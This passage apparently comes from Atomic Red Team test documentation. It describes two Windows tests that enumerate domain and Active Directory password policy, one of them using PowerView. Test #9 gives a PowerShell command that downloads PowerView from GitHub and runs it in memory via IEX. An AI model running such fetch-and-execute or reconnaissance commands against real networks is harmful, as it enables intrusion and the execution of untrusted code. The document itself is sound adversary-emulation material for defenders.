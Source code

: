 




<br/>
<br/>

## Atomic Test #9 - Get-DomainPolicy with PowerView
Utilizing PowerView, run Get-DomainPolicy to return the default domain policy or the domain controller policy for the current domain or a specified domain/domain controller.

**Supported Platforms:** Windows


**auto_generated_guid:** 3177f4da-3d4b-4592-8bdc-aa23d0b2e843






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainPolicy -verbose
```






<br/>
<br/>

## Atomic Test #10 - Enumerate Active Directory Password Policy with get-addefaultdomainpasswordpolicy
The following Atomic test will utilize get-addefaultdomainpasswordpolicy to enumerate domain password policy.
Upon successful execution a listing of the policy implemented will display.
Reference: https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-addefaultdomainpasswordpolicy?view=windowsserver2022-ps

**Supported Platforms:** Windows


**auto_generated_guid:** b2698b33-984c-4a1c-93bb-e4ba72a0babb






#### Attack Commands: Run with `powershell`! 


```powershell
get-addefaultdomainpasswordpolicy
```


